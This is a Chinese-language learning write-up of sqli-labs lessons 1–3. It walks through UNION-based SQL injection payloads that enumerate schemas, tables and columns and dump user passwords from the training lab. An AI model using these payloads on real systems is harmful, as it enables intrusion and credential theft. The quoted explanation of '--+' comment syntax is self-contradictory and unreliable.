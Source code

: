 # sqli靶场学习

## sqli-less1

![](./images/sqli1_1.png)
发现题目说请输入ID作为数值参数

![](./images/sqli1_2.png)
![](./images/sqli1_3.png)
判断是get传参，并且发现只有get传参传id而非ID才可有正常回显

![](./images/sqli1_4.png)
![](./images/sqli1_5.png)
输入?id=1 and 1=1 与?id=1 and 1=2 发现均有回显且没变化，考虑是字符型注入

![](./images/sqli1_6.png)
![](./images/sqli1_7.png)
id=1' and '1'='1回显正确id=1' and '1'='2回显错误（判断为【'】闭合）

---

### 注释妙用

查大佬的wp时候发现大佬用‘--+’注释掉后面的语句，而非使用‘--’，因此便查了一下，学到以下知识点：

> 1. `--` 这是MySQL中的一种单行注释方式。当你在SQL语句中使用 `--` 后跟一个空格时，它会注释掉 `--` 之后的所有内容，直到行尾。

> 2. `#` 这也是MySQL中的一种单行注释方式，用法与 `--` 类似，但它是用 `#` 开始，后面跟一个空格。

> 3. `/* ... */` 这是MySQL中的多行注释方式，可以注释掉一段跨多行的文本。

> 在SQL注入中，攻击者选择使用 `--+` 而不是 `--` 的原因通常与数据库的字符型字段处理有关。在某些情况下，如果数据库字段中已经包含了 `--` 作为数据的一部分，那么使用 `--` 作为注释符可能会导致注入的SQL语句被数据库提前注释掉，从而使得注入的恶意代码无法执行。例如，如果一个查询是这样的： 
```sql
SELECT * FROM users WHERE username = 'someUser' AND password = 'somePass--';
```

> 如果攻击者尝试注入 `--` 来注释掉 `somePass--` 后面的部分，整个密码字段 `somePass--` 都会被注释掉，因为数据库会认为 `--` 是注释的开始，而不是密码的一部分。

> 使用 `--+` 的目的是利用MySQL解析器的一个特性，即它在解析查询时会忽略 `--` 后面紧跟的任何非字母字符。因此，如果攻击者在 `--` 后面紧跟一个加号 `+`，MySQL解析器会认为 `--+` 是无效的注释，而不会将其视为注释的开始。这样，攻击者就可以绕过已经存在于查询中的 `--` 注释符，并且能够插入自己的恶意代码。

> 但这种方法需要数据库支持这种注释方式，并且需要攻击者对目标数据库的解析行为有足够的了解。在实际的SQL注入防御中，最好的策略是使用参数化查询（也称为预处理语句）来避免这类攻击，因为参数化查询会将数据和代码分开处理，从而防止SQL注入。

> 总之，`--+` 是MySQL中一种常见的单行注释方式，但需要注意使用它时需要确保数据库支持这种注释方式。
---

![](./images/sqli1_8.png)
此处用 order by 对前面的数据进行排列，先进行试数，发现只有三组数据，'order by 4–+就会超出，因此可以判断出有3个字段

---

### 特殊的SQL语句
>Union
>联合运算符⽤于组合两个或多个 SELECT 语句的结果。

>注意：每个语句中选择的列数必须相同。

>第⼀个 SELECT 语句中第⼀列的数据类型必须与第⼆个（第三个、第
四个…） SQL 语句的第⼀列的数据类型匹配 SELECT 语句。

>第⼀个 SELECT 语句中第⼆列的数据类型必须与第⼆个（第三个、第
四个…） SQL 语句的第⼆列的数据类型匹配 SELECT 语句。

---

![](./images/sqli1_9.png)
发现可以进行union联合注入那么用如下语句来进行注入

```sql
SELECT * FROM users WHERE id='-1' UNION SELECT 1, group_concat(schema_name), 3 FROM information_schema.schemata LIMIT 0, 1 --+
```
> SELECT 1, group_concat(schema_name), 3 FROM information_schema.schemata：这是注入的查询。information_schema.schemata是MySQL中的一个特殊的数据库，它包含了服务器上所有数据库的信息。group_concat函数用于将多个行中的字段值连接成一个字符串。在这个查询中，它被用来获取所有数据库的名称，并将它们合并成一个单一的字符串。

> LIMIT 0, 1：这是用来限制查询结果的数量。LIMIT 0, 1表示只返回第一行数据，而不是所有,因为它可以减少被注入的查询对原始页面显示的影响，从而降低被发现的风险。

---

![](./images/sqli1_10.png)
得到所有数据库的名称

```sql
 SELECT * FROM users WHERE id='-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+ LIMIT 0,1
```

![](./images/sqli1_11.png)
得到security数据库中的所有表

```sql
SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema = 'security' and table_name = 'users' --+ LIMIT 0,1
```
![](./images/sqli1_12.png)
得到users表中的所有列名

```sql
select 1,group_concat(username),group_concat(password) from security.users --+
```
![](./images/sqli1_13.png)
得到users表中的所有数据

![源码中的sql查询语句](./images/sqli1_14.png)

### 总结

> 1. 判断注入点
> 2. 判断注入类型
> 3. 判断闭合方式（有关注释的知识点）
> 4. 判断字段数（有关union联合注入的知识点）
> 5. 获得数据库名称
> 6. 获得列名
> 7. 获取数据

---

## sqli-less2

![](./images/sqli2_1.png)
![](./images/sqli2_2.png)
![](./images/sqli2_3.png)
输入?id=1 and 1=1 有回显，?id=1 and 1=2无回显，判断出是数字型注入

![](./images/sqli2_4.png)
输入 order by 3+ 发现有回显，输入 order by 4+ 发现无回显，判断出有3个字段

![](./images/sqli2_5.png)
发现可以使用union联合注入，输入如下语句
```
?id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata LIMIT 0, 1 --+
```
![](./images/sqli2_6.png)
得到所有数据库的名称：information_schema,challenges,mysql,performance_schema,security,sys

```
union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+ LIMIT 0,1
```
![](./images/sqli2_7.png)
得到security数据库中的所有表：emails,referers,uagents,users

```sql
SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema = 'security' and table_name = 'users' --+ LIMIT 0,1
```
![](./images/sqli2_8.png)
得到security.users表中的所有列名：id,username,password

```sql
SELECT * FROM users WHERE id='-1'union select 1,group_concat(username),group_concat(password) from security.users --+
```
![](./images/sqli2_9.png)
得到users表中password的所有数据

![源码中的sql查询语句](./images/sqli2_10.png)

### 总结（与less2方式相同）
> 1. 判断注入点
> 2. 判断注入类型
> 3. 判断字段数
> 4. 获得数据库名称
> 5. 获得列名
> 6. 获取数据

## sqli-less3

从这里开始我尝试使用burp进行sql注入，从而使注入语句显示更加直观
![](./images/sqli3_1.png)
![](./images/sqli3_2.png)
![](./images/sqli3_3.png)
判断发现需要闭合，判断闭合方式

![](./images/sqli3_4.png)
![](./images/sqli3_5.png)
发现在单引号闭合后报错，
